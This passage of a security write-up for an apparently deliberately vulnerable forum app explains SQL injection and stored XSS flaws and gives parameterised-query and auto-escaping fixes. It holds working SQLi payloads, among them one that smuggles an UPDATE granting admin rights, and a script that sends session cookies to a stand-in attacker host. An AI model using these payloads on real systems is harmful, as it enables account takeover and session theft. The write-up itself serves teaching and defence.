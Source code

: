 
* **Proof of Concept (SQLi) -**
    1.  **Login Bypass -** At the login page, enter the username `' OR 1=1 --`. The password field can be left blank. The server executes `...WHERE username = '' OR 1=1...`, which is always true, logging the attacker in as the first user (the admin).
    2. **Sensitive Data Exposure via Search -** On the home page, the search query is also built insecurely. By entering the payload `%' OR 1=1 --` into the search bar, an attacker can bypass the `visibility = 'public'` filter and view all posts in the database, including other users' private posts.
    3. **Privilege Escalation -** On the user profile page, an attacker with username 'attacker' can set their first name to the payload: `attacker'; UPDATE users SET role = 'admin' WHERE username = 'attacker'--`. The vulnerable code uses `executescript`, allowing it to run multiple SQL commands. This executes a second, malicious query that elevates the attacker's privileges to 'admin', giving them full control.

* **The Flaw (XSS) -** The application stores user-supplied content (forum posts) in the database without sanitisation. When this content is rendered on the page for other users, a `|safe` filter is used in the template, causing the browser to execute any embedded JavaScript.
    * *Vulnerable Code (`post.html` template) -*
    ```html
    <div class="post-content">
        {{ post.content | safe }}
    </div>
    ```

* **Proof of Concept (XSS) -**
    1.  An attacker creates a new post and inserts a malicious script designed to steal cookies - `<script>fetch('http://attackers-site.com/?cookie=' + document.cookie);</script>`.
    2.  When another user views this post, their browser executes the script, sending their session cookie to the attacker's server (also present in the git repository), allowing for session hijacking.

* **The Fix (Remediation) -**
    * **For SQLi -** Never use string formatting for SQL queries. Use parameterised queries (prepared statements), which treat user input as data, not as executable code.
        * *Secure Code (`app.py`, Login) -*
        ```python
        query = "SELECT * FROM users WHERE username = ? AND password = ?"
        user = db.execute(query, (username, password)).fetchone()
        ```
        * *Secure Code (`app.py`, Search) -*
        ```python
        query = "SELECT ... WHERE p.visibility = 'public' AND p.title LIKE ?"
        public_posts = db.execute(query, ('%' + search_query + '%',)).fetchall()
        ```
        * *Secure Code (`app.py`, Profile Update) -*
        ```python
        query = "UPDATE users SET first_name = ?, last_name = ? WHERE id = ?"
        db.execute(query, (first_name, last_name, user_id))
        ```
    * **For XSS -** Remove the `|safe` filter and rely on the template engine's default auto-escaping feature. This converts special HTML characters into their harmless entity equivalents.
        * *Secure Code (`post.html` template):*
        ```html
        <div class="post-content">
            {{ post.content }}
        </div>
        ```
